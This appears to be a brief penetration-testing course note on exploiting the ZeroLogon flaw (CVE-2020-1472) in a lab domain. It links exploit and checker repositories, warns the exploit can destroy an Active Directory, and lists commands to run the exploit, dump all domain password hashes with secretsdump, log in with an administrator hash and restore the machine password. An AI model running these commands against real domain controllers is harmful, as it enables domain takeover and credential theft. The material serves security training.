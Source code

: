 # 18. Abusing Zero Logon

## Resources

What is ZeroLogon? - [https://www.trendmicro.com/en_us/what-is/zerologon.html](https://www.trendmicro.com/en_us/what-is/zerologon.html)

dirkjanm CVE-2020-1472 - [https://github.com/dirkjanm/CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472)

SecuraBV ZeroLogon Checker - [https://github.com/SecuraBV/CVE-2020-1472](https://github.com/SecuraBV/CVE-2020-1472)


- Very dangerous to run in a real environment, can destroy a whole AD, just run the checker

### Commands to run:
- `python3 cve-2020-1472-exploit.py DOMAIN-CONTROLLER-NAME DC-IP`\
- `secretsdump.py -just-dc MARVEL/HYDRA-DC\$@DC-IP`
- `secretsdump.py administrator@IP -hashes HASH`
- Look for plain password hex
- `python3 restorepassword.py MARVEL/HYDRA-DC@HYDRA-DC -target-ip -hexpass HEXPASS`




